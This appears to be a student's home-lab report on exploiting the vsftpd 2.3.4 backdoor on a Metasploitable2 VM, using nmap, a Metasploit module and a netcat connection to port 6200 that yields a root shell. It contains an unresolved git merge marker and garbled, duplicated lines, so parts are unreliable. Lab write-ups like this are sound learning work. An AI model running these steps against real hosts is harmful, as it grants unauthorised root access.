 # 📊 Cybersecurity Home Lab - Report Template

## Lab Title: Exploiting FTP Backdoor Vulnerability (vsftpd 2.3.4)

### 🎯 Objective

Demonstrate identification and exploitation of a known FTP vulnerability (vsftpd 2.3.4) to achieve unauthorized remote shell access.

---

### 📍 Lab Environment

| Component        | Configuration                            |
| ---------------- | ---------------------------------------- |
| Attacker Machine | Kali Linux (VirtualBox, 2 CPUs, 4GB RAM) |
| Target Machine   | Metasploitable2 (Host-only Network)      |
| Network Setup    | Host-only Adapter + NAT for Kali         |

---

### 🔎 Vulnerability Details

| Property       | Value                                              |
| -------------- | -------------------------------------------------- |
| Service        | FTP                                                |
| Version        | vsftpd 2.3.4                                       |
| Port           | 21                                                 |
| CVE            | N/A (backdoor, not official CVE)                   |
| Exploit Module | `exploit/unix/ftp/vsftpd_234_backdoor`             |
| Description    | Malicious backdoor allows root shell via port 6200 |

Reference: [Rapid7 Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)

---

### 🛠️ Exploitation Steps

#### 1. Discovery - Nmap Scan

```bash
nmap -sV 192.168.56.102 -p 21
```

**Result**:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

#### 2. Exploit with Metasploit

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set RPORT 21
run
```

**Result**:

```
[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

#### 3. Manual Shell Access

```bash
nc 192.168.56.102 6200
whoami
```

**Result**:

```
root
```

---

### ✅ Outcome

* Successfully accessed root shell manually after exploit.
* Metasploit failed to open session but backdoor was live on port 6200.

<<<<<<< HEAD
### 📸 Screenshots

* Nmap scan result:(![Nmap_Scan](nmap_scan_result.png))
* Metasploit output and Netcat shell with 'root':(![metasploit_output](../screenshots/exploit_result.png))
* attacker network setup:(![attacker_net](../screenshots/attack-network-set.png))
* kali ping target :(![kali-ping](../screenshots/kali_ping_target.png))
* metasploitable network setup:(![metasploit_net](../screenshots/meta-network-set.png))
* metasploitable network setup:(![metasploit_net](../screenshots/meta-network-set.png))


---

---


# Lab Report – vsftpd 2.3.4 Backdoor

## Target Information

* Target IP: 192.168.56.102
* OS and Services (nmap result):

whoa*Result**:
root

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

## Vulnerability Details

* Vulnerability name: vsftpd 2.3.4 Backdoor
* Exploit used: Metasploit module + manual netcat connection
* CVE (if known): N/A (undocumented backdoor)

## Steps Taken

1. Scanned with Nmap
2. Identified vulnerable service (FTP vsftpd 2.3.4)
3. Exploited using Metasploit and Netcat

## Results

* Shell access: Yes (via port 6200)
* Screenshot:&#x20;

## Lessons Learned

* Always verify open ports post-exploit for manual access.
* Not all Metasploit exploits result in automated sessions.
* Critical to understand service versions and exploit behavior.
